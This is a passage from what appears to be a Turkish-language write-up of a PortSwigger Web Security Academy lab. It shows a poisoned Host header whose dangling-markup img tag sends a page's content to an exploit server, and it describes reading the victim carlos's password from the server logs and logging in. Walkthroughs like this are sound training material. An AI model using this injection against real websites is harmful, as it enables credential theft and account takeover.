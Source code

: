 Dolayısıyla bu kısma payload’ımızı yerleştirip request gönderiyoruz. Domain olarak da exploit server üzerinde bize verilen domain adresini girmemiz gerekmektedir. Nihai host alanı değerimiz de bu şekilde olacaktır;

```html
Host: 0a080033034fe334815adf1400b6007d.web-security-academy.net:80'></a> <img src="https://exploit-0a9c002d03d5e3dd818ade8101a40022.exploit-server.net/exploit/?a=
```

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2023.png)

Bu request’i gönderdikten sonra `exploit server` üzerinden `access log`’ları inceliyoruz. Yaptığımız incelemeler neticesinde ise `carlos` kullanıcısı için şifrenin geldiğini görmekteyiz;

![Untitled](0x13%20ada5ae96539943db9d14955c71e3b77c/Untitled%2024.png)

Ve artık bu şifre ile Carlos kullanıcısının hesabına giriş yapabiliriz. Lab ortamını da bu şekilde çözmüş olduk…
